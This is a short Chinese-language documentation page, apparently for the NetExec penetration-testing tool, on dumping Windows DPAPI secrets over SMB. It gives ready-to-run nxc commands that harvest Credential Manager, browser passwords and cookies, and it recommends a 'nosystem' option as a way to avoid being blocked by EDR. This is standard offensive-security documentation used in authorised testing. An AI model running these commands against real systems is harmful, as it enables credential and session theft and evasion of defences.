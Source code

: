 ```yaml
---
description: 使用 NetExec 导出 DPAPI 凭证
---
```


# 导出 DPAPI

你可以使用 NetExec 的 `--dpapi` 选项导出 DPAPI 凭证。它将获取凭证管理器、Chrome、Edge、Firefox 中的所有密钥。`--dpapi` 支持以下选项：

* cookies：收集浏览器中的所有 cookies
* nosystem：不收集系统凭证。这可以防止 EDR 阻止你获取密码 :fire:

{% hint style="danger" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth**
{% endhint %}

```
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
$ nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
```
